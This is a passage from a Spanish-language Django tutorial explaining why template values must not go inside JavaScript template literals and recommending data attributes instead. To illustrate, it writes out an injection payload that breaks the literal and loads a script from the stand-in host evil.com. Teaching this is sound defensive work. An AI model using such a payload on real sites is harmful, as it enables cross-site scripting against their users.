 Es mejor **evitar siempre esta opción**. Django por defecto escapa los valores
en las plantillas, así que si `username` fuera, por ejemplo `"Adam <3"`, la
salida en la plantilla sería:

```html
<script>
    const username = "Adam &lt;3";
</script>
```

Otro peligro relacionado con esto sería la posibilidad de [inyección de código](https://es.wikipedia.org/wiki/Inyecci%C3%B3n_de_c%C3%B3digo), especialmente si se usan [plantillas
literales de javascript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals). En el siguiente ejemplo:

```html
{# DON’T DO THIS #}
<script>
    const greeting = `Hi {{ username }}`;
</script>
```

Un visitante malicioso podría incluir una comilla invertida
para terminar el literal, y añadir su propio código. Por ejemplo, si el valor de
`username` fuera:

```js
a`; document.body.appendChild(document.createElement(`script`)).src = `evil.com/js`;`
```

Entonces la salida final sería:


```html
<script>
    const greeting = `Hi a`; document.body.appendChild(document.createElement(`script`)).src = `evil.com/js`;``;
</script>
```

El sistema de plantillas de Django está pensado para escapar Html, no para
_Javascript_, que tiene un sintaxis mucho más compleja.

Descartado esto, veamos pues las dos opciones que tenemos:

### Usar atributos de datos en etiquetas Html

Para datos simple, se pueden usar [atributos de
datos](https://developer.mozilla.org/en-US/docs/Learn/HTML/Howto/Use_data_attributes),
que son atributos genéricos cuyo nombre empiece por `data-`. Por ejemplo:

```html
<script data-username="{{ username }}">
    const data = document.currentScript.dataset;
    const username = data.username;
</script>
```

Con `document.currentScript` podemos acceder simple y rápidamente a los
atributos de datos del _script_ actual. La propiedad `dataset` contiene los
valores pasados en forma de texto. Esto puede ser usado también con ficheros
en _scripts_ de javascript independientes:
